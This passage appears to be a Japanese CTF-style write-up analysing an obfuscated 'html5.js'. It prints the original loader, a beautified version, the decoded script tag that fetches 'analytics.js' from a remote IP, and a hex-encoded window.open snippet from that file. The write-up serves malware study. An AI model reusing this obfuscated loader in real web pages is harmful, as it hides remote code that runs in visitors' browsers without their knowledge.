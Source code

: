 ```
var g="ti";var c="HTML Tags";var f=". li colgroup br src datalist script option .";f = f.split(" ");c="";k="/";m=f[6];for(var i=0;i<f.length;i++){c+=f[i].length.toString();}v=f[0];x="\'ht";b=f[4];f=2541*6-35+46+12-15269;c+=f.toString();f=(56+31+68*65+41-548)/4000-1;c+=f.toString();f="";c=c.split("");var w=0;u="s";for(var i=0;i<c.length;i++){if(((i==3||i==6)&&w!=2)||((i==8)&&w==2)){f+=String.fromCharCode(46);w++;}f+=c[i];} i=k+"anal"; document.write("<"+m+" "+b+"="+x+"tp:"+k+k+f+i+"y"+g+"c"+u+v+"j"+u+"\'>\</"+m+"\>");
```

[beautify](http://jsbeautifier.org/)してみます。

```
var g = "ti";
var c = "HTML Tags";
var f = ". li colgroup br src datalist script option .";
f = f.split(" ");
c = "";
k = "/";
m = f[6];
for (var i = 0; i < f.length; i++) {
    c += f[i].length.toString();
}
v = f[0];
x = "\'ht";
b = f[4];
f = 2541 * 6 - 35 + 46 + 12 - 15269;
c += f.toString();
f = (56 + 31 + 68 * 65 + 41 - 548) / 4000 - 1;
c += f.toString();
f = "";
c = c.split("");
var w = 0;
u = "s";
for (var i = 0; i < c.length; i++) {
    if (((i == 3 || i == 6) && w != 2) || ((i == 8) && w == 2)) {
        f += String.fromCharCode(46);
        w++;
    }
    f += c[i];
}
i = k + "anal";
document.write("<" + m + " " + b + "=" + x + "tp:" + k + k + f + i + "y" + g + "c" + u + v + "j" + u + "\'>\</" + m + "\>");
```

このコードをnodeに与えて、`document.write`の引数になっている文字列を見てみると次のようになります。

```
<script src='http://128.238.66.100/analytics.js'></script>
```

つまりhtml5.jsが実行されると'http://128.238.66.100/analytics.js'が読まれて実行されるわけです。ここにアクセスしてanalytics.jsを見てみます（長いので中身は省略します）。すると、明らかにおかしな箇所がありました。

```
var _0x91fe = ["\x68\x74\x74\x70\x3A\x2F\x2F\x31\x32\x38\x2E\x32\x33\x38\x2E\x36\x36\x2E\x31\x30\x30\x2F\x61\x6E\x6E\x6F\x75\x6E\x63\x65\x6D\x65\x6E\x74\x2E\x70\x64\x66", "\x5F\x73\x65\x6C\x66", "\x6F\x70\x65\x6E"];
window[_0x91fe[2]](_0x91fe[0], _0x91fe[1]);
```
